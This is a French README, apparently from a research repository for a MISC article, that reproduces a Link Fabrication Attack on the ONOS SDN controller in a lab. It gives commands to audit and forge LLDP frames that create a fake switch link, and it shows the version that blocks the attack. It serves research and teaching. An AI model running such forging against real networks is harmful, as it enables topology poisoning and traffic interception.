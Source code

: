 # Reproduction de LFA sur contrôleur ONOS

_Article MISC n° 109_

_Flavien Joly-Pottuz / Stefano Secci_ | _**CNAM PARIS**_

## Reproduction sur ONOS version 1.14.0

Pour les besoins de la reproduction, il est préférable d'ouvrir plusieurs terminaux avec le système de test:
+ Terminal H1 - Lancer un Ping permanant vers H2 afin de suivre l'évolution de la connectivité
+ Terminal P1 - Exécution de l'attaque
+ Terminal P2 - Exécution de l'attaque
+ Terminal LOGS - Suivi des évènements  ONOS

Pour les terminaux H1-P1-P2, il est possible de se placer dans le contexte du namespace afin d'éviter d'd'exécuter les 
commandes avec le préfixe `ip netns ...` en utilisant la commande `ip netns exec {H1|P1|P2} bash`.

Avant de procéder à l’injection, on lance la commande suivante ```tail –f /opt/onos/log/karaf.log``` dans le terminal 
dédié au LOGS afin de surveiller la prise en compte des liens dans ONOS.


**Utilisation de nohup :**
Il est possible d'utiliser `nohup` afin de lancer l'ensemble des commandes depuis un unique terminal,il suffit d'ajouter 
l'argument `--nohup` lors du lancement du script _audit.py_ afin d'obtenir la commande au bon format. Pour arreter 
l'éxécution des scripts il faut éxecuter la commande `killall -r python3`.

### Création du lien fabriqué H2 - H1

On commence par effectuer l'audit des trames LLDP reçues par P1 sur son interface p1-eth1.

```
ip netns exec p1 python3 audit_lldp.py --target p2
```

Le script revoit alors la commande avec les paramètres nécessaires à la forge de la forme :

```
ip netns exec p2 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 52:83:9c:2c:cc:4c  --source-port 2
```

On exécute alors la commande **sur le terminal de P2** :

```
ip netns exec p2 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 52:83:9c:2c:cc:4c  --source-port 2
```

Le lien apparait alors sur le dashboard :

![alt text](images/Lien_S1_S3_Uni.png "Lien S1-S3 unidirectionnel")

Le lien est en pointillé rouge car il est unidirectionnel uniquement (S1 -> S3) 

### Création du lien fabriqué H2 - H1

/!\ _Ne pouvant pas filtrer le trafic entrant uniquement, il faut arreter la génération de trames sur P2 le temps de l'
audit. Ne pas oublier de relancer celle ci ensuite !_ /!\

On commence par effectuer l'audit des trames LLDP reçues par P1 sur son interface p1-eth1.

```
ip netns exec p2 python3 audit_lldp.py --target p1
```

Le script revoit alors la commande avec les paramètres nécessaires à la forge de la forme :

```
ip netns exec p1 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 0a:a8:e2:5e:2c:4d  --source-port 3
```

On exécute alors la commande **sur le terminal de P1** :

```
ip netns exec p1 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 0a:a8:e2:5e:2c:4d  --source-port 3
```

Le lien entre S1 et S3 change alors de couleur sur le dashboard :

![alt text](images/Lien_S1_S3_Bidi.png "Lien S1-S3 unidirectionnel")

Le lien est en gris car il est bidirectionnel désormais (S1 <--> S3) 

## Reproduction sur ONOS version 1.15.0

### Changement de version

#### Utilisation du script utilis.py

```
# Nettoyage de la topologie & changement de version
python3 utilis.py --swap
# Création de la topologie
python3 utilis.py --create
```

#### Méthode manuelle

```
service onos stop
cd /opt
rm onos
ln -s /opt/onos-1.15.0 /opt/onos
ssh-keygen -f "/root/.ssh/known_hosts" -R "[localhost]:8101" # Suppression de la clé SSH de la version 1.14.0
service onos start
```

Après quelques minutes, vous pourrez vérifier que le changement de version est bien effectif en consultant le dashboard.

### Reproduction sur ONOS version 1.15.0

Reprendre les étapes détaillées pour la version 1.14.0

Cette fois ci aucun lien ne devrait etre créé et vous devriez retrouver le log suivant :

```
2020-04-05 17:54:44,313 | WARN  | -127.0.0.1:47940 | LinkDiscovery | 179 - org.onosproject.onos-providers-lldpcommon - 1.15.0 | LLDP Packet failed to validate!
```

## Commandes utiles

### ONOS

+ Consultation de la base de donnée des liens : 
```
onos:links
```

+ Vérification des couts des chemins :
```
onos:paths of:0000f27cf7ed6a4a of:00002e480372fd48
```

### OVS

+ Vérification de la connexion du vSwitch avec le contrôleur :

```
ovs-vsctl show
```

+ Composition du switch vue par le contrôleur :

```
ovs-ofctl show {s1|s2|s3}
```

+ Consultation de la table des flux du switch :

```
ovs-ofctl dump-flows {s1|s2|s3}
```
### Linux

+ Verification des entrées ARP de H1 :

```
ip netns exec h1 arp -a
```

+ Capture de trafic avec enregistrement dans fichier pcap pour lecture avec wireshark :

```
tcpdump -i <interface> -w monfichier.pcap
```
